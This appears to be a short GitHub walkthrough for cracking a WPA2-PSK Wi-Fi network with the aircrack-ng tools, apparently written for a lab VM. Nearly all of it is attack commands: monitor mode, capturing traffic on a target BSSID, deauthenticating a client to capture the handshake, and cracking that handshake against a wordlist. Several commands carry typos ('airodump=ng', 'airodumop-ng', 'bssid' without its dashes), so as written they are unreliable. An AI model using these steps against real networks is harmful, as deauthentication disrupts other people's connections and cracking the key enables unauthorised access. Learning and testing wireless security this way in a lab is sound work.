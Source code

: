 # WPAPS2-Exploit-Walkthrough

## Prepare
- connect to VM
```bash
iwconfig
# if "iwconfig" exists -> card is ready
```
### Put in monitor mode
```bash
airmon-ng check kill
# kills all running processes
```
```bash
airmon-ng start wlan0
# confirm with
iwconfig
```
### Search for networks
```bash
airodump=ng wlan0mon
```
-> find network

```
airodump-ng -c 6 bssid <BSSID> -w capture wlan0mon
airodumop-ng -c <channel> bssid <BSSID> -w <filename> <interface>
# -c = Channel
# -w <filename> = write results to file <filename>
```

## Attack
### DeAuth Attack
```bash
aireplay-ng -0 1 -a <BSSID> -c <STATION> <interface>
# -0 = DeAuth Attack
# 1 = 1x
# -a = MAC Address of AP(BSSID)
# -c = station
```
- Might need a few tries
-> Captures Handshake

## Crack the Hash
```bash
aircrack-ng -w <wordlist> -b <bssid> <capture file>
```